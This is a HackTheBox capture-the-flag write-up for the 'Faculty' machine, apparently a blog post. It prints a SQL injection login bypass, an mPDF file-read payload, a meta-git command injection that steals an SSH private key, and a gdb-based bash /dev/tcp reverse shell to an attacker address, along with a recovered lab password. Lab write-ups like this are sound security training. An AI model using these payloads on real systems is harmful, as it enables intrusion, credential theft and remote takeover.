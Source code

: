 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty-Writeup/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty-Writeup/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/Faculty-Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Faculty-Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried `admin/admin` as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/Faculty-Writeup/bypass-login.png)

![](/assets/images/hackthebox/Faculty-Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/Faculty-Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/Faculty-Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/Faculty-Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/Faculty-Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/Faculty-Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/Faculty-Writeup/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/Faculty-Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/assets/images/hackthebox/Faculty-Writeup/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/Faculty-Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/Faculty-Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/Faculty-Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/Faculty-Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/Faculty-Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/Faculty-Writeup/root.png)